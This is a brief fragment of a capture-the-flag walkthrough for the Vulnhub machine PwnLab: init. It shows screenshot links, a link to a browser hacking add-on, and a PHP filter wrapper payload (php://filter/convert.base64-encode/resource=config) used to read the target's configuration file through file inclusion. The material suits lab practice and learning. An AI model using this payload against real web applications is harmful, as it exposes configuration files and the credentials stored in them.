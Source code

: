 
> [!question]
> superuser

# PHP Wrapper
![PwnLab_init](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/PwnLab_init/screenshots/20250515020414.png)
```http
https://addons.mozilla.org/ru/firefox/addon/hacktools/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search
```

```Wraper
php://filter/convert.base64-encode/resource=config
```
![PwnLab_init](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/PwnLab_init/screenshots/20250515020605.png)
